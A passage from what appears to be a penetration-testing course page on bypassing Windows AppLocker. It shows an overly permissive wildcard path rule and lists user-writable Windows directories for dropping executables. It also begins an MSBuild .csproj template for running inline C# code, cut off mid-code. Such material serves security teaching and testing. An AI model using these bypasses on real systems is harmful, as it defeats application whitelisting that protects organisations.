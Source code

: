 ### Bypasses <a href="#el_1743106455380_532" id="el_1743106455380_532"></a>

Finding an AppLocker bypass is obviously dependant on the policy itself, but here are some common ones to look for:

#### Path Wildcards <a href="#el_1743106512554_558" id="el_1743106512554_558"></a>

You may find instances where a custom rule has been added that allows execution from a directory, but where that rule has overly permissive wildcards.  An example of such as rule could look something like this:

```xml
<FilePathRule Id="daecf627-c762-4c7d-849a-7eb9d4e9692e" Name="App-V" Description="" UserOrGroupSid="S-1-1-0" Action="Allow">
	<Conditions>
		<FilePathCondition Path="*\App-V\*"/>
	</Conditions>
</FilePathRule>
```

We can see that the start of the path is not specific to a directory such as `%PROGRAMFILES%` or `%WINDIR%`.  This means that an executable in any directory called _App-V_ will be allowed to run per this rule.

#### Writable Directories <a href="#el_1743157610644_683" id="el_1743157610644_683"></a>

There are multiple directories that exist within the default allowed path for many of the rules, `%WINDIR%\*`, that standard users are allowed to write to.  Simply drop an executable, script, or installer into one of these locations, and it will be allowed to run.  You can find these with tools such as `Get-Acl` and `icacls`.  Such paths include:

* C:\Windows\Tasks
* C:\Windows\Temp&#x20;
* C:\windows\tracing
* C:\Windows\System32\spool\PRINTERS
* C:\Windows\System32\spool\SERVERS
* C:\Windows\System32\spool\drivers\color

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/3f78379c7f79faf4b938e3d06c63b116.png" alt="" width="100%"><figcaption></figcaption></figure>

#### LOLBAS <a href="#el_1743106519599_570" id="el_1743106519599_570"></a>

Some [LOLBAS](https://lolbas-project.github.io/)' that are able to execute arbitrary code can also be used to bypass AppLocker, because they exist in whitelisted locations such as `%WINDIR%\*`.  [MSBuild](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/) is one example that allows you to execute arbitrary C# code from a specially crafted `.csproj` file.

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
   <MSBuild/>
  </Target>
   <UsingTask
    TaskName="MSBuild"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
     <Task>
      <Reference Include="System.Windows.Forms" />		
      <Code Type="Class" Language="cs">
        <![CDATA[
		using Microsoft.Build.Utilities;
		using System.Windows.Forms;

```